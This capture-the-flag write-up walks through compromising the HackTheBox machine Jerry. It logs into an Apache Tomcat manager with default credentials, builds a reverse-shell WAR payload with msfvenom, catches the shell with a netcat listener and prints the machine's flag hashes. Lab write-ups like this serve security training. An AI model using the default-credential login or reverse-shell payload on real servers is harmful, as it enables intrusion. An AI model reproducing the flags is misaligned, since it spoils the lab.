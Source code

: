 
    title: 'HackTheBox: Jerry',
    author: 'Nawras M. Amin'
};

# HackTheBox: Jerry | Writeup

<small>June 30th 2021 </small>

**Overview**

Jerry is a retired HTB easy windows machine. It is running an Apache Tomcat webserver through which we get manager rights using the default credentials. We can then use the manager panel to upload a malicious WAR file containing a reverse shell generated with metasploit. There is no enumeration to be done once on the target machine.

## Enumeration: Initial scan

```bash
Nmap scan report for 10.10.10.95
Host is up (0.097s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

We have only one open port it looks like, on port 8080, running an Apache Tomcat webserver.

## Webserver

If we navigate to `10.10.10.95:8080`, we'll be greeted by tomcat's default landing page. We can navigate to the web application manager section, but this prompts us to input a password and a username. If you neglect to put anything and try to log in, you'll be redirected to an unauthorized page containing some default credentials as examples: `username: tomcat` and `password: s3cret`.

We can use those to login to the manager app and see the some more information.

The first thing we can see is that we have some paths
![Untitled](/assets/20210630150435.png)

None of these links point to anything too interesting, except perhaps the `host-manager` path, but it requires authentication, which we don't seem to have with the default credentials provided by tomcat.

Further down, we can also see that we can deploy files or WAR's to the webserver and also the server information:

-   Tomcat Version: `Apache Tomcat/7.0.88`
-   JVM Version: `1.8.0_171-b11`
-   JVM Vendor: `Oracle Corporation`
-   OS Name: `Windows Server 2012 R2`
-   OS Version: `6.3`
-   OS Architecture `amd64`
-   Hostname: `JERRY`
-   IP Address: `10.10.10.95`

These could be useful.

## Searching for an exploit

Because most of the tomcat exploits need to have access to the `/manager` page before we can do anything, the process of exploiting the machine becomes more tedious. Thankfully for us, we already have access to the manager dashboard, therefore we can already try to exploit it. The most obvious way would be to try to inject a reverse shell using a malicious WAR file.

The particular payload I used is located on the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#war) github repo.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp ## in order to get the name of the file
```

Define the LHOST and the LPORT accordingly to match your machine's IP Address on the HTB network and listener port.

Once the file has been generated, use the `/manager` dashboard to upload it and you should see it pop up in the list of application paths under the name `/reverse` by default. Navigating to `10.10.10.95:8080/reverse` after setting up a listener will trigger a request to your listener and get you a shell:

```bash
$ nc -lvp 4242
listening on [any] 4242 ...
10.10.10.95: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.95] 49195
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

We now have a shell.

## Finding the flags

If you dig around a bit and look through the directories, you'll see that there is an administrator user on the machine. You can directly access the contents of the Desktop and find a folder titled `flags` in which you will find both flags:

```bash
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

We have our two flags!


